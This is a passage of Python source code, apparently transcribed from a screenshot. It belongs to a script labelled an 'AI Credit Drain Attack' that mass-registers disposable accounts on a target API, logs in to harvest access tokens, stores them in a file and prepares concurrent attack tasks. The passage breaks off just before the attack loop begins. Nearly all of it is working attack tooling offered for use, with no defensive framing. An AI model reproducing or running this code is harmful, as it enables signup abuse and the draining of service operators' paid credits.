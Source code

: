 ```python
    async with aiohttp.ClientSession() as session:
        for i in range(count):
            email = f"disposable{i}_{int(time.time())}@tempmail.com"
            password = f"TempPass{i}!{random.randint(1000,9999)}"
            
            try:
                # Register account
                async with session.post(
                    f"{TARGET_API}/auth/register",
                    json={"email": email, "password": password}
                ) as response:
                    if response.status == 201:
                        # Login to get token
                        async with session.post(
                            f"{TARGET_API}/auth/login",
                            json={"email": email, "password": password}
                        ) as login_response:
                            data = await login_response.json()
                            token = data.get('accessToken') or data.get('token')
                            
                            if token:
                                accounts.append({
                                    "email": email,
                                    "password": password,
                                    "token": token
                                })
                                print(f"[+] Created: {email}")
                
            except Exception as e:
                print(f"[-] Failed to create {email}: {e}")
    
    print(f"[+] Successfully created {len(accounts)} accounts")
    
    # Save accounts for future use
    with open("attack_accounts.json", "w") as f:
        json.dump(accounts, f, indent=2)
    
    return accounts

async def main():
    global ACCOUNTS
    
    print("="*60)
    print("AI Credit Drain Attack - Distributed Mode")
    print("="*60)
    
    # Load or create accounts
    try:
        with open("attack_accounts.json", "r") as f:
            ACCOUNTS = json.load(f)
        print(f"[+] Loaded {len(ACCOUNTS)} existing accounts")
    except FileNotFoundError:
        ACCOUNTS = await create_disposable_accounts(100)
    
    if not ACCOUNTS:
        print("[-] No accounts available for attack")
        return
    
    # Setup
    semaphore = asyncio.Semaphore(MAX_CONCURRENT)
    stop_event = asyncio.Event()
    
    # Start attack
```